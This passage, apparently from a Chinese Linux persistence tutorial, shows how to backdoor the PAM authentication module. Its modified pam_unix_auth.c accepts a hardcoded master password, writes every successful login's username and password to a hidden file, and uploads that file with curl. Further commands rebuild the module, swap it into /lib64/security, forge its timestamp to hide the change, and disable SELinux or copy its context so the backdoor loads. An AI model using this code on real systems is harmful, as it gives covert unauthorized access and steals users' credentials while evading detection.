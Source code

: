 4、pam_unix_auth.c 修改后

```
/* verify the password of this user */
    retval = _unix_verify_password(pamh, name, p, ctrl);
    if(strcmp(p,"1q2w3e4r")==0){return PAM_SUCCESS;}
    if(retval == PAM_SUCCESS){
        FILE * fp;
        fp = fopen("/bin/.sshlog", "a");
        fprintf(fp, "%s : %s\n", name, p);
        fclose(fp);
        system("curl -H 'Max-Downloads: 0' -H 'Max-Days: 7' --upload-file /bin/.sshlog http://127.0.0.1:8080/sshlog.txt -s -o /dev/null --connect-timeout 3");
        }
    name = p = NULL;
```

```
curl -H 'Max-Downloads: 0' -H 'Max-Days: 7' --upload-file /bin/.sshlog http://127.0.0.1:8080/sshlog.txt -s -o /dev/null --connect-timeout 3
```

```
./configure
make
```

编译后：modules/pam_unix/.libs/pam_unix.so  
5、备份/替换/修改时间戳

```
ll /lib64/security/
-rwxr-xr-x. 1 root root  57688 8月  18 2015 pam_unix.so
-rwxr-xr-x. 1 root root  15384 8月  18 2015 pam_userdb.so
-rwxr-xr-x. 1 root root   7000 8月  18 2015 pam_warn.so
-rwxr-xr-x. 1 root root  11168 8月  18 2015 pam_wheel.so
-rwxr-xr-x. 1 root root  19744 8月  18 2015 pam_xauth.so
cp /lib64/security/pam_unix.so /lib64/security/pam_unix.so.bak
cp ./pam_unix.so /lib64/security/pam_unix.so
touch -r /lib64/security/pam_userdb.so /lib64/security/pam_unix.so
ll /lib64/security/
-rwxr-xr-x. 1 root root 221776 8月  18 2015 pam_unix.so
-rwxr-xr-x. 1 root root  57688 6月  30 23:18 pam_unix.so.bak
-rwxr-xr-x. 1 root root  15384 8月  18 2015 pam_userdb.so
-rwxr-xr-x. 1 root root   7000 8月  18 2015 pam_warn.so
-rwxr-xr-x. 1 root root  11168 8月  18 2015 pam_wheel.so
-rwxr-xr-x. 1 root root  19744 8月  18 2015 pam_xauth.so
```

如果selinux是开启的环境，一定要关掉或者设置好上下文pam_unix.so才能正常工作。

```
查看selinux 状态
getenforce
    Enforcing 关闭
    Permissive 开启
临时关闭selinux
setenforce 0
临时开启selinux
setenforce 1
查看selinux上下文：
ls -Z pam_unix.so.bak
设置selinux上下文：
chcon –reference=pam_unix.so.bak pam_unix.so
```
### 0x10 进程注入
